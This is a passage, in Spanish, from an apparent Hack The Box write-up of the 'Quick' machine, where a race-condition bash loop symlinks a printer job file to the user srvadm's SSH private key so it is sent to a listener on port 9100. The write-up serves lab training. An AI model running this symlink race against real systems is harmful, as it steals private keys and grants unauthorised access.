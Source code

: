 ![](/assets/images/HTB/htb-writeup-Quick/quick18.PNG)


Podemos aprovecharnos de este `sleep`, para poder crearnos un archivo con el nombre de la fecha actual, y cuando se ejecute el `sleep` puedo secuestrar el contenido original para crear un link simbolico que apunte a la clave `id_rsa` del usuario `srvadm`.

Para ello ejecutare la siguente instrucción.

```bash
sam@quick:/var/www/printer$ while true; do fecha=$(date +%F_%H:%M:%S); if [ -r $fecha ]; then ln -s -f /home/srvadm/.ssh/id_rsa $fecha; break; fi; done
```

Me pondre en escucha por el puerto `9100` y agregare un contenido en `bill details`.

![](/assets/images/HTB/htb-writeup-Quick/quick19.PNG)
